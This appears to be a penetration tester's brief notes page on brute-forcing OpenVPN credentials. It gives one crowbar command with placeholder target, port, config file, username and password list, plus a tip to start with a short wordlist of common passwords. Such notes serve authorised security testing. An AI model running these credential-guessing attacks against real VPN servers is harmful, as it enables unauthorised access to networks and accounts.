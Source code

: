 # OpenVPN

## 01 - Brute Force

> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[VPN Wordlist|vpn wordlist]] to find low hanging fruit.

```
$ crowbar -b openvpn -s <target_IP>/32 -p <443 | 1194> -m file.ovpn [-k certificate.crt] -u <username> -C passwords.lst
```

---
## References

- [[Crowbar|Crowbar]]